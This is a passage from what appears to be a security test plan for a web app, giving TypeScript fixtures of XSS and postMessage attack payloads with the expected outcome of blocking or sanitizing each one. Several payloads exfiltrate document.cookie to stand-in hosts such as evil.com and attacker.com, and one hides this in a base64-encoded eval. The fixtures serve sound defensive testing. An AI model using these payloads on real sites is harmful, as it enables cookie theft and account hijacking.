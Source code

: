 ```typescript
      questionCount: 2
    }
  }
];
```

#### 6.1.2 Attack Payload Test Data

```typescript
interface SecurityTestPayload {
  attackType: string;
  severity: 'critical' | 'high' | 'medium' | 'low';
  payload: string;
  expectedBehavior: 'blocked' | 'sanitized' | 'logged';
  description: string;
}

export const xssAttackPayloads: SecurityTestPayload[] = [
  {
    attackType: 'script-injection',
    severity: 'critical',
    payload: '<script>fetch("https://evil.com/steal", {method: "POST", body: document.cookie})</script>',
    expectedBehavior: 'blocked',
    description: 'Cookie stealing via external fetch'
  },
  {
    attackType: 'event-handler',
    severity: 'high',
    payload: '<img src="x" onerror="alert(\'XSS\'); fetch(\'https://attacker.com/\' + document.cookie)">',
    expectedBehavior: 'sanitized',
    description: 'Image event handler with data exfiltration'
  },
  {
    attackType: 'svg-script',
    severity: 'high',
    payload: '<svg onload="eval(atob(\'YWxlcnQoJ1hTUycpOyBmZXRjaCgnaHR0cHM6Ly9hdHRhY2tlci5jb20vJyArIGRvY3VtZW50LmNvb2tpZSk=\'))">',
    expectedBehavior: 'blocked',
    description: 'Base64 encoded script execution in SVG'
  },
  {
    attackType: 'iframe-injection',
    severity: 'medium',
    payload: '<iframe src="javascript:alert(\'XSS\')" style="display:none"></iframe>',
    expectedBehavior: 'blocked',
    description: 'Hidden iframe with JavaScript execution'
  },
  {
    attackType: 'css-expression',
    severity: 'medium',
    payload: '<div style="background: expression(alert(\'XSS\'))">Content</div>',
    expectedBehavior: 'sanitized',
    description: 'CSS expression injection (IE legacy)'
  }
];

export const postMessageAttackPayloads: SecurityTestPayload[] = [
  {
    attackType: 'origin-spoofing',
    severity: 'critical',
    payload: JSON.stringify({
      origin: 'https://evil.instructure.com.attacker.com',
```